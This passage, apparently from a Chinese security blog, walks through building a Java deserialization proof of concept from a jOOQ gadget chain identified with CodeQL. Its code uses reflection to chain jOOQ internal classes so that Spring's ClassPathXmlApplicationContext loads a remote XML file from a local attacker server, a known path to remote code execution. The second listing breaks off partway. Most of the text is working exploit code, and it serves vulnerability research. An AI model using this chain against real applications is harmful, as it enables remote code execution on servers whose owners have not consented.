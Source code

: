 ![image-20241213154655516](https://cocr-obsidian.oss-cn-beijing.aliyuncs.com/_typora_image/image-20241213154655516.png)

### 构造

然后我们将codeql分析的这部分进行构造。


```java
Class clazz1 = Class.forName("org.jooq.impl.Dual");
Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
constructor1.setAccessible(true);
Object table = constructor1.newInstance();

Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
constructor2.setAccessible(true);
Object tableDataType = constructor2.newInstance(table);

Class clazz3 = Class.forName("org.jooq.impl.Val");
Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
constructor3.setAccessible(true);
Object val = constructor3.newInstance("whatever", tableDataType, false);

Class clazz4 = Class.forName("org.jooq.impl.ConvertedVal");
Constructor constructor4 = clazz4.getDeclaredConstructors()[0];
constructor4.setAccessible(true);
Object convertedVal = constructor4.newInstance(val, tableDataType);

Object value = "http://127.0.0.1:7777/poc.xml";
Class type = ClassPathXmlApplicationContext.class;

ReflectUtil.setFieldValue(val, "value", value);
ReflectUtil.setFieldValue(tableDataType, "uType", type);

Method m = convertedVal.getClass().getMethod("getValue");
m.setAccessible(true);
m.invoke(convertedVal);
```

最终的poc就如官方给的那样。

```java
public class PocServer {

    public static void main(String[] args) throws Exception {
        gen("http://127.0.0.1:7777/poc.xml");
    }

    public static void gen(String url) throws Exception{
        Class clazz1 = Class.forName("org.jooq.impl.Dual");
        Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
        constructor1.setAccessible(true);
        Object table = constructor1.newInstance();

        Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
        Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object tableDataType = constructor2.newInstance(table);

        Class clazz3 = Class.forName("org.jooq.impl.Val");
        Constructor constructor3 = clazz3.getDeclaredConstructor(Object.class, DataType.class, boolean.class);
        constructor3.setAccessible(true);
        Object val = constructor3.newInstance("whatever", tableDataType, false);

```